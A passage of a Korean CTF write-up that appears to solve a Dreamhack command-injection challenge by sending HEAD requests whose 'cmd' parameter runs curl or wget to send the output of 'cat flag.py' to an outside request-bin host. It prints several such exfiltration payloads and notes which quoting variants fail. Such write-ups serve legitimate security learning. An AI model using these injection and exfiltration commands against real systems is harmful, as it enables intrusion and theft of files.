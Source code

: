 ```
위와 똑같은 방식으로 `GET` 요청을 보내서 아래와 같이 쿼리 파라미터에 데이터를 담아올 수도 있다.

```shell
curl https://offxuuz.request.dreamhack.games/?query="$(cat+flag.py)"
```

위 명령어가 수행되도록 `HEAD` 요청을 보내면 헤더의 QueryString에 `query`의 결과가 담겨온다.

그런데, `""`을 제외하고 요청을 보내면 아래와 같이 `FLAG` 뒷 부분은 공백 때문에 짤리지만, HTTP 요청은 잘 보내진다.

<img width="590" alt="image" src="https://github.com/user-attachments/assets/c9b6cea6-a5c8-4640-9d1b-d7f0fa209eb3">

하지만, `""`로 `$()` 부분을 감싸서 보내면 아예 원격 서버로 HTTP 요청이 보내지지도 않았다.

```
HEAD /?cmd=curl+https://offxuuz.request.dreamhack.games/?query="$(cat+flag.py)" HTTP/1.1
```

뭔가 쿼리 파라미터에서는 URL 인코딩이 되어야 하나 생각을 해서 `"`의 인코딩 결과인 `%22`로도 감싸봤지만 똑같이 안됬다.

```
HEAD /?cmd=curl+https://offxuuz.request.dreamhack.games/?query=%22$(cat+flag.py)%22 HTTP/1.1
```

해당 이유는 조금 더 공부를 해보고 수정해야겠다. 대부분 `curl`을 보낼 때도 `POST` 메서드를 통해 보내서 딱히 크게 신경쓰지 않아도 되지만 다음에 알아낸 후 수정해보겠다.

<br>

#### 3. **wget** : 원격 서버에 POST 메서드로 **cat flag.py**의 결과를 파라미터로 전송

```shell
wget https://dzmnkob.request.dreamhack.games --method=POST --body-data="$(cat flag.py)"
```

위 명령어가 시스템 함수에 전달되도록 `HEAD` 메서드를 통해 웹 서버에 전달하면 된다. 그럼 아래와 같이 작성할 수 있다.

```
HEAD /?cmd=wget+https://dzmnkob.request.dreamhack.games+--method=POST+--body-data="$(cat+flag.py)" HTTP/1.1
```

위와 같이 작성한 후 Payload를 전달하면 아래와 같이 `cat flag.py`의 실행 결과가 원격 서버로 잘 전달되는 것을 확인할 수 있다.

<img width="583" alt="image" src="https://github.com/user-attachments/assets/a77e34f5-f755-4a16-bb4a-3f30f8e5cdc8">

마찬가지로 여기서도 `$()` 대신 ``` ` ```을 써도 되고, `""`으로 `cat flag.py`의 실행 결과를 감싸줘야한다.

<br>

#### 4. **wget** : 원격 서버에 GET 메서드로 **cat flag.py**의 결과를 파라미터로 전송

`wget` 명령어는 `--method`를 정해주지 않으면, 기본적으로 `GET` 메서드를 수행한다.

따라서, 아래와 같은 명령어를 전달해주면 된다.

```
wget https://dzmnkob.request.dreamhack.games/?query="$(cat flag.py)"
```
